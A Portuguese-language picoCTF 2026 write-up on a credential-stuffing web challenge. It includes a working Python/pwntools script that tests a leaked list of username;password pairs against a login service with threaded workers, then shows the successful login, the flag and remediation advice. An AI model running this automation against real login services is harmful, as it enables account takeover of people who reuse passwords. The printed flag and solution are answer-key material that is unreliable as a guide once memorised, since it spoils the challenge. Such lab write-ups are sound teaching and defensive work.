

# Credential Stuffing | picoCTF 2026

`web` `credential-stuffing` `automation` `pwntools` `threads`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2026 |
| **Categoria** | Web Exploitation |
| **Dificuldade / pontos** | Medium |
| **Autor do desafio** | David Gaviria |
| **Resolvido em** | 2026-05-18 |

## TL;DR

O desafio dá um dump de 1500 pares `usuario;senha` vazados e um serviço de login por socket. Automatizo o envio de cada par ao serviço e procuro `picoCTF{` na resposta pós-login. O par `lonna;compass` (um dos últimos do dump) é reaproveitado no banco e devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** credential stuffing explora **reúso de senha**. Credenciais vazadas em um lugar funcionam em outro quando a pessoa repete a mesma senha. O ataque é só automação: testar o dump inteiro contra o alvo.

## Enunciado

> Credential stuffing is the automated injection of stolen username and password pairs ("credentials") in to website login forms, in order to fraudulently gain access to user accounts. (...) submitting those sets of stolen credentials into dozens or hundreds of other sites can allow an attacker to compromise those accounts too. Download the credentials dump here.

**Arquivos:** [`files/creds-dump.txt`](files/creds-dump.txt) — 1500 pares `usuario;senha`. **Instância:** serviço de login por socket (host e porta do picoCTF).

## Dicas progressivas

<details><summary>Dica 1</summary>O serviço pede <code>Username:</code> e <code>Password:</code> em sequência. Dá para scriptar.</details>
<details><summary>Dica 2</summary>Teste cada par do dump; a resposta de sucesso contém a flag.</details>
<details><summary>Dica 3</summary>São 1500 tentativas: use concorrência moderada (uns 10 workers) para não derrubar a instância.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `python3` e `pwntools` (`pip install pwntools`).
- **Arquivo:** `files/creds-dump.txt` na raiz da pasta do desafio.

Na minha instância o serviço estava em `crystal-peak.picoctf.net:52170`. Use o da sua.

***INSERIR no terminal — Kali (atacante)

```bash
export TARGET_HOST=crystal-peak.picoctf.net TARGET_PORT=52170
```

## Resolução

### 1. Entendendo o protocolo do serviço

Conectando manualmente, o serviço é um prompt de banco online que pede `Username:` e, em seguida, `Password:`. Com credenciais válidas, responde `Welcome <user>!` e imprime a flag; com inválidas, recusa. O formato do dump é `usuario;senha`, uma por linha.

> [!TIP]
> **Conceito: credential stuffing.** Diferente de brute force (que adivinha senhas), aqui testamos pares reais vazados, apostando que a vítima reusou a mesma senha neste serviço. A taxa de sucesso é baixa por par, mas alta no agregado quando há reúso. Referência: [OWASP — Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

### 2. Automatizando o teste do dump

Escrevo um script com `pwntools` que, para cada par, abre uma conexão, manda usuário e senha nos prompts e verifica se a resposta contém `picoCTF{`. Testo em paralelo com poucos workers.

> **Isso precisou de ajuste** (não é um beco sem saída, é calibração): com muitos workers a instância derrubava conexões (`incomplete`/`error`). Baixei para **10 workers**, com um pequeno `sleep(0.01)` entre os envios, e aí ficou estável (`invalid=250 incomplete=0 error=0` por lote). O script final já vem com esse valor.

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
from pwn import *
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading, re, time

HOST = "crystal-peak.picoctf.net"
PORT = 52170
CREDS_FILE = "files/creds-dump.txt"
WORKERS = 10  # calibrado: estável, sem derrubar a instância

context.log_level = "error"
found_event = threading.Event()

def try_login(index, username, password):
    if found_event.is_set():
        return None
    try:
        io = remote(HOST, PORT, timeout=5)
        io.sendlineafter(b"Username:", username.encode(), timeout=5)
        io.sendlineafter(b"Password:", password.encode(), timeout=5)
        result = io.recvall(timeout=2)
        io.close()
        if b"picoCTF{" in result:
            found_event.set()
            return {"index": index, "username": username,
                    "password": password, "response": result.decode(errors="replace")}
    except Exception:
        return None
    return None

def main():
    creds = []
    with open(CREDS_FILE, encoding="utf-8", errors="replace") as f:
        for line in f:
            line = line.strip()
            if line and ";" in line:
                u, p = line.split(";", 1)  # split(';',1): senha pode conter ';'
                creds.append((u, p))

    print(f"[*] {len(creds)} credenciais, {WORKERS} workers")
    with ThreadPoolExecutor(max_workers=WORKERS) as ex:
        futures = []
        for i, (u, p) in enumerate(creds, 1):
            if found_event.is_set():
                break
            futures.append(ex.submit(try_login, i, u, p))
            time.sleep(0.01)  # espaça os envios
        for fut in as_completed(futures):
            r = fut.result()
            if r:
                print(f"\n[+] linha {r['index']}: {r['username']}:{r['password']}")
                print(r["response"])
                m = re.search(r"picoCTF\{[^}]+\}", r["response"])
                if m:
                    print(f"[+] FLAG: {m.group(0)}")
                return

if __name__ == "__main__":
    main()
```

***INSERIR no terminal — Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
[+] linha 1415: lonna:compass
=========================================
Welcome to the Online Banking Service!
=========================================
Username: lonna
Password: compass
Authenticating...
Welcome lonna!
picoCTF{d0nt_r3u5e_cr3d3nt1als_204dfe14}
```

## Cadeia de ataque



## Por que funciona

O serviço aceita login por um par válido qualquer do banco. Como o dump contém credenciais reaproveitadas que **existem** nesse banco (reúso de senha), basta encontrar o par certo testando todos. Não há proteção contra automação em massa (rate limit, CAPTCHA, bloqueio por tentativas), então o ataque roda até achar. A própria flag (`d0nt_r3u5e_cr3d3nt1als`) é a lição.

## Remediação

- Rate limiting e bloqueio progressivo por IP/conta após tentativas falhas.
- MFA, que quebra o ataque mesmo com a senha correta.
- Monitorar e barrar logins automatizados (device fingerprinting, CAPTCHA em comportamento suspeito).
- Do lado do usuário: senhas únicas por serviço e gerenciador de senhas.

## Lições e padrões

- **Sinais para reconhecer:** sempre que um desafio entrega uma lista de credenciais e um login, é credential stuffing — o trabalho é de automação e estabilidade, não de técnica.
- **Da próxima vez eu tentaria primeiro:** calibrar a concorrência em um lote pequeno antes de disparar as 1500, para não derrubar a instância e perder tempo.

## Referências

- [OWASP — Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing)
- [pwntools — tubes/remote](https://docs.pwntools.com/en/stable/tubes/sockets.html)

## Flag

```text
picoCTF{d0nt_r3u5e_cr3d3nt1als_204dfe14}
```
